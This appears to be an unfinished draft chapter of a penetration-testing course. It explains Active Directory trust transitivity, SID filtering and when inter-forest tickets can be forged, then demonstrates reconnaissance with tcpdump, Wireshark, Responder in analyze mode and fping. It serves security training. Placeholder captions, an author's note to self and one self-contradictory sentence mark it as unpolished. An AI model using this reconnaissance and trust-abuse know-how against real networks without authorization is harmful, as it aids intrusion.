In Active Directory, a transitive trust is a type of trust relationship that allows access to resources to be passed from one domain to another. When a transitive trust is established between two domains, any trusts that have been established with the first domain are automatically extended to the second domain. This means that if Domain A trusts Domain B and Domain B trusts Domain C, then Domain A automatically trusts Domain C, even if there is no direct trust relationship between Domain A and Domain C. Transitive trusts are useful in large, complex networks where multiple trust relationships have been established between many different domains. They help simplify the process of accessing resources and reduce the number of authentication hops that may be required.

The transitivity status of a trust depends on \texttt{trustAttributes} flags of a \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/b645c125-a7da-4097-84a1-2fa7cea07714\#gt_f2ceef4e-999b-4276-84cd-2e2829de5fc4}{TDO}.

\importantbox
\begin{itemize}
    \item If the \verb|TRUST_ATTRIBUTE_NON_TRANSITIVE (0x00000001)| flag is set, then transitivity is disabled.
    \item If the \verb|TRUST_ATTRIBUTE_WITHIN_FOREST (0x00000020)| flag is set, then the transitivity is enabled.
    \item If the flag \verb|TRUST_ATTRIBUTE_FOREST_TRANSITIVE (0x00000008)| is set, then the transitivity is enabled.

\end{itemize}
In any other case, transitivity is disabled.

\section{SID Filtering}
According to Microsoft, the security boundary in Active Directory is the forest, not the domain. The forest defines the boundaries of trust and controls access to resources within the forest.

The domain is a unit within a forest and represents a logical grouping of users, computers, and other resources. Users within a domain can access resources within their own domain and can also access resources in other domains within the same forest, as long as they have the appropriate permissions. Users cannot access resources in other forests unless a trust relationship has been established between the forests.

SID filtering plays an important role in the security boundary by making sure "only SIDs from the trusted domain will be accepted for authorization data returned during authentication. SIDs from other domains will be removed" (\verb|netdom| cmdlet output). By default, SID filtering is disabled for intraforest trusts and enabled for interforest trusts.

 \begin{figure}
     \centering
     
\includegraphics[width=0.75\linewidth]{defaultconfig1.png}
     \caption{Enter Caption}
     \label{fig:placeholder}
 \end{figure}

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{sidfiltering.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Section \href{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280}{4.1.2.2} of [MS-PAC] specifies what is filtered and when. There are three important things to remember from this document:

\begin{itemize}
    \item If SID filtering is fully enabled, all SIDs that differ from the trusted domain will be filtered out
    \item Even if it's enabled, a few SIDs will (almost) never be filtered: "Enterprise Domain Controllers" (\texttt{S-1-5-9}) SID and those described by the \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/f2ef15b6-1e9b-48b5-bf0b-019f061d41c8\#gt_f2ceef4e-999b-4276-84cd-2e2829de5fc4}{trusted domain object (TDO)}, as well as seven well-known SIDs (see \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280}{MS-PAC doc}, and \href{https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-3-sid-filtering-explained\#yui_3_17_2_1_1673614140169_543}{improsec's blogpost}).
    \item there are two kinds of inter-forest trusts: "Forest", and "External" (see \href{https://www.thehacker.recipes/ad/movement/trusts/index\#trust-types}{trust types}). Microsoft says "cross-forest trusts are more stringently filtered than external trusts", meaning that in External trusts, SID filtering only filters out RID < 1000.
\end{itemize}

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{ms-pacsection.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

[MS-PAC] section 4.1.2.2

\importantbox{The SID filtering status of a trust depends on the \href{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/e9a2d23c-c31e-4a6f-88a0-6646fdb51a3c}{trustAttributes} flags of a \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/b645c125-a7da-4097-84a1-2fa7cea07714\#gt_f2ceef4e-999b-4276-84cd-2e2829de5fc4}{TDO} as well as the type of trust.}

\begin{quote}

If the \verb|TRUST_ATTRIBUTE_QUARANTINED_DOMAIN (0x00000004)| flag is set, then only SIDs from the trusted domain are allowed (all others are filtered
\textit{(by} \href{https://twitter.com/0xcsandker}{\textit{Carsten Sandker}} \textit{on} \href{https://www.securesystems.de/blog/active-directory-spotlight-trusts-part-2-operational-guidance/}{\textit{www.securesystems.de}}\textit{)}

If the \verb|TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL (0x00000040)| flag is set, then inter-forest ticket can be forged, spoofing an RID >= 1000. Of course, this doesn't apply if TAQD (\verb|TRUST_ATTRIBUTE_QUARANTINED_DOMAIN|) is set.
\textit{(sources: section} \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/e9a2d23c-c31e-4a6f-88a0-6646fdb51a3c?redirectedfrom=MSDN}{\textit{6.1.6.7.9}} \textit{of [MS-ADTS], and section} \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280}{\textit{4.1.2.2}} \textit{of [MS-PAC]).}

\end{quote}

Above are some key, usually valid, elements. But as \href{https://twitter.com/0xcsandker}{Carsten Sandker} puts it: "the logic that sits behind this might be too complex to put it in text". To really know the behavior of SID filtering for a trust, refer to the lookup tables \href{https://www.securesystems.de/images/blog/active-directory-spotlight-trusts-part-2-operational-guidance/OC-b4We5WFiXhTirzI_Dyw.png}{here} (for default trusts setups) and \href{https://www.securesystems.de/images/blog/active-directory-spotlight-trusts-part-2-operational-guidance/99icUS7SKCscWq6VzW0o5g.png}{there} (for custom configs).

SID filtering is not unique to trusts. It occurs "\href{https://twitter.com/SteveSyfuhs/status/1329148611305693185}{whenever a service ticket is accepted}" either by the KDC or by a local service and behaves differently depending on the contect in which the ticket was produced.

Also, SID filtering works the same way for NTLM and Kerberos. It's a separate mechanism invoked after user logon info are unpacked (more details in \href{https://www.thehacker.recipes/ad/movement/trusts/index\#ntlm-authentication}{NTLM} and \href{https://www.thehacker.recipes/ad/movement/trusts/index\#kerberos-authentication}{Kerberos} chapters).

 


\section{Audience}
This chapter is designed for learners who want to build their skills in assessing and exploiting trust relationships in Active Directory (AD). It is written to be approachable for motivated beginners while still providing the depth needed to challenge those with some prior experience in AD-related security.

You do not need to be an expert in Active Directory to benefit from this information contained here within; however, having a basic familiarity with AD concepts (such as domains, forests, and Kerberos authentication) will make it easier to follow along. If you are completely new to AD security, I recommend reviewing the Active Directory Enumeration \& Attacks chapter first, as it covers the foundational concepts and techniques that many of the trust-based attacks in this chapter build upon.

In short, whether you are just starting your journey into Active Directory security or looking to sharpen existing skills, this chapter will equip you with practical knowledge of trust-based attacks and defenses.

\section{Enumerating Domain \& Forest Trusts}
When performing initial Active Directory enumeration, it is important to note down any and all trust relationships you encounter, as trusts may present an attack vector that may lead to compromise of one or more domains through either misconfigurations or abusing Windows and AD built-in functionalities.  You can use various tools to enumerate domain and forest trust relationships. Tools such as the PowerShell cmdlets with which we are currently working, PowerView.  Command-line utilities such as \texttt{nltest} and \texttt{netdom}
can discover trust types (e.g., forest, parent/child, external), their direction (one-way or two-way), and the authentication flow between domains and forests.

MITRE ATT\&CK Domain Trust Discovery Technique T1482
A variety of tools can be used to enumerate domain and forest trusts. Below, we will examine enumeration using both a built-in PowerShell cmdlet and an open-source tool commonly used by hackers.

\section{Initial Enumeration of the Active Directory Domain}
We will start from a Linux attack host without domain user credentials. It is a common thing to start of any security hacking engagement in this manner. Many organizations will wish to see what you can do from a blind man's perspective, such as this, before prividing you with further information for your test. It gives a more realistic look at what potential avenues an adversary would have to use to infiletrate the domain.  It can help you to better visualize what an attacker could do if they gain unauthorized access via the internet (e.g., a phishing attack), phyiscal access to the building, wireless access form outside (if the wireless networl touches the internal Active Directory domain environment), or even a rogue AP or employee. Depending on the success of this phase, the customer may provide you with access to a domain-joined host or a set of credentials for the network to expedite testing and allow you to cover as much ground as possible.

Below are some of the key data points that you should be looking for at this time and noting down into your note-taking tool of choice nad saving scan and tool output files to your external or cloud-based storage of choice whenever possible.

\subsection{Key Data Points}

\begin{table}
    \centering
    \begin{tabular}{cc}
         Data Point& Description\\
         AD Users& Your goal is to enumerate valid user accounts you can target for password spraying.\\
         AD-Joined Computers& Key computers include Domain Controllers (DCs), file servers, SQL servers, web servers, Exchange email servers, and any other juicy target you can use to leverage for permissions esclation.\\
         Key Services& Kerberos, NetBIOS, LDAP, DNS\\
         Vulnerable Hosts and Services& Anything that can be a quick win (e.g., an easy host to exploit and gain initial toehold)-start probing "low hanging fruit" first.\\
    \end{tabular}
    \caption{Caption}
    \label{tab:placeholder}
\end{table}

\section{Tactics, Techniques, and Procedures (TTPs)}
Enumerating an Active Directory (AD) environment can be quite overwhelming if approached just without an attack workflow or plan in place. There is an abundance of data stored in AD, and it can take a very long time to sift if not looked at and parsed in progressive stages, and chances are, you will likely miss things. You need to set a game plan for yourself and tackle it piece by piece. In addition, no one said hacking was easy.

Everyone works in slightly different ways, this is understood, so as you gain more experience, you will start to develop your own repeatable attack and defend methodologies that work best for you. Regardless of how you proceed, you should typically start in the same place and look for the same data points. We will experiment with many tools in this section and subsequent ones. However, it is important to note the importance of reproducing every example and even trying to recreate examples with different tools to see how they work differently, learning their syntactical complexities, and finding what approach works best for you. There is no one-size-fits-all when it comes to enumerating AD domains. In fact, it could be considered as a one-size-fits-all approach.

We will start with \texttt{passive} identification of any hosts in the AD network, followed by \texttt{active} validation and verification of the results to find out more about each host, such as what services are running, names, potential vulnerabilities, and more). Once you know which hosts exist, you can proceed with probing those hosts, further looking for any interesting data points that you can glean from them. After you have accomplished these tasks, you should stop and regroup and look at the information you have collected. At this time, you will hopefully have a set of credentials or a user account to target for a toehold into a domain-joined host or have the ability to begin credentialed enumeration from your attacking host.

Let us look at some tools and techniques to help us with this enumeration activity.

\subsubsection{Identifying AD Domain-Joined Hosts}
First, take some time to listen to the network and see what is going on before you jump in head first. This is called \textit{passive reconnaissance / enumeration.} Here, you can use tools like Wireshark and \texttt{tcpdump} to essentially "put your ear to the wire" and see what hosts and types of network traffic you can capture to get a feel for the "lay of the land" you are about to attempt to attack. This is particularly helpful if the assessment approach is a "black-box" approach. We notice some ARP requests and replies, MDNS, and other basic Layer 2 packets (since we are on a switched network, we are limited to the current broadcast domain), some of which we can see below. This is a great start that gives you a few bits of information about the target's network setup.

\begin{notebox}
    \verb|tcpdump| is a command-line packet analyzer for capturing and displaying network traffic on unix-like systems, allowing you to diagnose network problems, identify security threats, and monitor network performance by analyzing packets on a network interface. It can be installed using package managers like \verb|dnf|, \verb|apt|, or \verb|brew.| Key features include capturing packets in a file for later analysis (using the \texttt{-w} flag), reading from a capture file (using \texttt{-r}), and filtering traffic by host, network, or port.

\textbf{How \texttt{tcpdump}} \textbf{Works}
\textbf{Captures traffic:}
\texttt{tcpdump} intercepts and displays packets being sent and received by the computer it is running on.

\textbf{Real-time analysis:}
It provides a description of the packet's contents, including time stamps, to hlep you better understand network activities.

\textbf{Filtering:}
You can apply filters to specify which network traffic you are interested in capturing, focusing on specific hosts, networks, or protocols.

\textbf{Saving and reading:}
Captured data can be saved to a file for later review, more detailed analysis, or read from a previously saved file.

\subsubsection{Common Uses:}
\textbf{Troubleshooting:}
Continuously monitor network traffic to identify network bottlenecks and performance and optimization issues. These network traffic patterns can be used to establish baselines that support security implementations through network behavior analysis.

\textbf{Security:}
Detect unusual network activities, such as port scanning or potential Distributed Denial of Service (DDoS) attacks.

\textbf{Debugging:}
Analyze specific protocol traffic such as HTTP or DNS to diagnose network services problems.

Some basic \texttt{tcpdump} commands to begin with include:
Install \texttt{tcpdump}:
\begin{itemize}\textbf{
    \item Debian / Ubuntu:} \verb|sudo apt install tcpdump|
    \item \textbf{Red Hat / CentOS:} \verb|sudo dnf install tcpdump|
    \item \textbf{macOS:} \verb|brew install tcpdump|
\end{itemize}
\textbf{Capture traffic on an interface:}
\begin{itemize}
    \item \verb|tcpdump -i any| captures traffic from any interface until interrupted (\texttt{Ctrl+C})
    \item \verb|tcpdump -i eth0| captures traffic specifically on the \texttt{eth0} interface.
\textbf{Limit captured packets:}
\item \verb|tcpdump -c 10| captures the first 10 packets and then stops.
\textbf{Save to a file:}
\item \verb|tcpdump -w packets.pcap| saves captured packets to a file named \texttt{packets.pcap.}
\textbf{Read from a file:}
\item \verb|tcpdump -r packets.pcap| reads and dispalys packets from the \texttt{packets.pcap} file.
\textbf{Combine filters:}
\item \verb|tcpdump host 192.168.1.1 and port 80| capture traffic to or from the host \texttt{192.168.1.1} on port 80.
\end{itemize}
\end{notebox}

\subsection{Initial AD Domain Enumeration with Wireshark}
Scroll to the bottom, spawn the target, connect to your (preferably) Linux attack host using \texttt{xfreerdp} and fire up Wireshark to begin capturing traffic.
I need a URL to show these steps above.

\begin{notebox}
    Wireshark is a free open source network protocol analyzer that captures and inspects network traffic in real time, allowing you to analyze data at the packet level to troubleshoot network issues, detect security vulnerabilities, and understand network communications. It is a widely used tool used by network administrators, security professionals, and developers to gain deep visibility into netwrork activities and identify problems when they arise.

\textbf{Key Features}
\textbf{Packet Capture \& Analysis}
\begin{itemize}
    \item Wireshark can capture live network traffic and also analyze previously saved packet capture files in various formats.
\textbf{Protocol Dissection:}
Dissects and displays network packets in a readable format, including source and destination addresses, ports, and packet contents, translating raw data into understandable and meaningful information.
\textbf{Filtering and Search:}
\item You can apply display filters to find specific network communications within the captured data.
\textbf{Real-Time Monitoring:}
\item Wireshark provides a graphical interface to watch packets in real-time flow through a network in action.
\textbf{Color-Coding:}
\item Wireshark can color-code packets based on user pre-defined rules, helping you to visually distinguish between different types of flowing network traffic, such as voice over IP or encrypted data communications.
\textbf{Open-Source:}
\item As an open-source project released under the GNU General Public License, it is free to use, and its source code is readily available, allowing for community-driven enhancements.
\end{itemize}

\textbf{How It Works}
\begin{enumerate}
    \item \textbf{Packet Capture:} Wireshark runs in \textit{"promiscuous mode"} to capture most of the network traffic on a local network, rather than just network traffic directed to the target machine it is running on.
    \item \textbf{Packet Dissection:} When data pass through your specified interface, Wireshark intercepts it and dissects it into its constituent protocols and fields.
    \item \textbf{Real-Time Visualization:} The tool displays captured packets in a user-friendly interface, showing details such as source and destination, protocol type, and data payload.
    \item \textbf{Analysis:} You can then filter, search and analyze these detailed data to identify issues, security threats, or to better understand application behaviors and functions.
\end{enumerate}
\end{notebox}



Start Wireshark on ea-attack01
Initial Enumeration of the Domain

Initial Enumeration of the Domain

\begin{verbatim}
┌─[mhd-student@ea-attack01]─[~] └──╼ \textbf{$}sudo -E wireshark 11:28:20.487 Main Warn QStandardPaths: runtime directory '/run/user/1001' is not owned by UID 0, but a directory permissions 0700 owned by UID 1001 GID 1002 <SNIP> 
\end{verbatim}

\paragraph{Wireshark Output}
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{ws.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
 

The ARP packets inform us about the hosts: 172.16.5.5, 172.16.5.25 172.16.5.50, 172.16.5.100, and 172.16.5.125.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{arpws.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

MDNS makes us aware of the ACADEMY-EA-WEB01 host.
If we are on a host without a GUI (which is typical), we can use tcpdump, net-creds, and NetMiner, etc., to perform the same functions. We can also use tcpdump to save a capture to a \texttt{.pcap} file, transfer it to another host and open it in Wireshark.

\paragraph{Tcpdump Output}

Initial Enumeration of the Domain
\verb|mindhackdiva@hhw[/hhw]$ sudo tcpdump -i ens224$|
\begin{verbatim}
---|mindhackdiva@hhwattack01| - | - | 
----- $sudo tcpdump -i ens224
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens224, link-type EN10MB (Ethernet), capture size 262144 bytes
10:17:05.123456 IP 192.168.1.10.54321 > 8.8.8.8.53: 12345+ A? example.com. (29)
10:17:05.123789 IP 8.8.8.8.53 > 192.168.1.10.54321: 12345 1/0/0 A 93.184.216.34 (45)
10:17:06.231456 IP 192.168.1.10.443 > 192.168.1.25.51234: Flags [P.], seq 1:501, ack 1, win 229, length 500
10:17:07.845678 IP6 fe80::1 > ff02::1: ICMP6, router advertisement, length 64
10:17:08.112233 ARP, Request who-has 192.168.1.1 tell 192.168.1.10, length 28
10:17:08.112456 ARP, Reply 192.168.1.1 is-at 00:11:22:33:44:55, length 46
[snip]
\end{verbatim}
There is no one right way to listen and capture network traffic. There are many tools that can process network data. Wireshark and tcpdump are just a few of the easiest to use and most widely known. Depending on the host on which you are on, you may already have a network monitoring tool built-in, such as \verb|pktmon.exe|, which was added to all Windows 10 editions. As a note for testing, it is always a good idea to save the PCAP traffic you capture. You can review it again later to look for more hints and it makes a great additional information to include while writing your reports.

Our first look at network traffic led us to a couple of hosts via \verb|MDNS| and \verb|ARP|. Now let us utilize a tool called \verb|Responder| to analyze network traffic and determine if anything else pops up in the domain.

\subsection{Responder}
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{responderlogo.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

\href{https://github.com/lgandx/Responder-Windows}{Responder} is a tool built to listen, analyze, and poison \verb|LLMNR|, \verb|NBT-NS|, and \verb|MDNS| requests and responses. It has many more functions, but for now, all we are utilizing is the tool in its Analyze mode. This will passively listen to the network and will not send poisoned packets. We will cover this tool more in-depth in later sections.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{responder.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
\paragraph{Starting Responder}

Code: bash

\begin{verbatim}
sudo responder -I ens224 -A 
\end{verbatim}

\paragraph{Responder Results}

As we start Responder with passive analysis mode enabled, we will see requests flow in our session. Notice in the following that we found some unique hosts not previously mentioned in our Wireshark captures. It is worth noting these down as we are starting to build a nice target list of IPs and DNS hostnames.

Our passive checks have given us a few hosts to note down for a more in-depth enumeration. Now let us perform some active checks starting with a quick ICMP sweep of the subnet using\verb|fping|.

\href{https://fping.org/}{Fping} provides us with a capability similar to that of the standard ping application in that it utilizes ICMP requests and replies to reach out and interact with a host. Where fping shines is in its ability to issue ICMP packets against a list of multiple hosts at once and its scriptability. Also, it works in a round-robin fashion, querying hosts in a cyclical manner instead of waiting for multiple requests to a single host to return before moving on. These checks will help us determine if anything else is active on the internal network. ICMP is not a one-stop-shop, but it is an easy way to get an initial idea of what exists. Other open ports and active protocols may point to new hosts for later targeting. Let us see it in action.

 \subsubsection{FPing Active Checks}
Here we’ll start \verb|fping| with a few flags: \verb|a| to show targets that are alive, \verb|s| to print stats at the end of the scan, \verb|g| to generate a target list from the CIDR network, and \verb|q| to not show per-target results.

Initial Enumeration of the Domain

\begin{verbatim}
